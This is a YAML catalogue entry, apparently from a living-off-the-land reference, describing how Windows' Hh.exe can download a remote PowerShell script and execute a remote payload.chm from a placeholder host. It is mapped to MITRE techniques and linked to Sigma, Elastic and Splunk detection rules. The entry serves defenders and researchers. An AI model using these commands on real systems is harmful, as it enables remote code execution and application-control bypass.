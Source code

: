 ```yaml
---
Name: Hh.exe
Description: Binary used for processing chm files in Windows
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: HH.exe http://some.url/script.ps1
    Description: Open the target PowerShell script with HTML Help.
    Usecase: Download files from url
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: HH.exe c:\windows\system32\calc.exe
    Description: Executes calc.exe with HTML Help.
    Usecase: Execute process with HH.exe
    Category: Execute
    Privileges: User
    MitreID: T1218.001
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: EXE
      - Input: Custom Format
  - Command: HH.exe http://some.url/payload.chm
    Description: Executes a remote payload.chm file which can contain commands.
    Usecase: Execute commands with HH.exe
    Category: Execute
    Privileges: User
    MitreID: T1218.001
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: CMD
      - Execute: CHM
      - Input: Custom Format
Full_Path:
  - Path: C:\Windows\hh.exe
  - Path: C:\Windows\SysWOW64\hh.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_hh_chm_execution.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_hh_html_help_susp_child_process.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/ef7548f04c4341e0d1a172810330d59453f46a21/rules/windows/execution_via_compiled_html_file.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/61afb1c1c0c3f50637b1bb194f3e6fb09f476e50/rules/windows/execution_html_help_executable_program_connecting_to_the_internet.toml
  - Splunk: https://github.com/splunk/security_content/blob/bee2a4cefa533f286c546cbe6798a0b5dec3e5ef/detections/endpoint/detect_html_help_spawn_child_process.yml
  - Splunk: https://github.com/splunk/security_content/blob/bee2a4cefa533f286c546cbe6798a0b5dec3e5ef/detections/endpoint/detect_html_help_url_in_command_line.yml
Resources:
  - Link: https://oddvar.moe/2017/08/13/bypassing-device-guard-umci-using-chm-cve-2017-8625/
Acknowledgement:
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
---
```

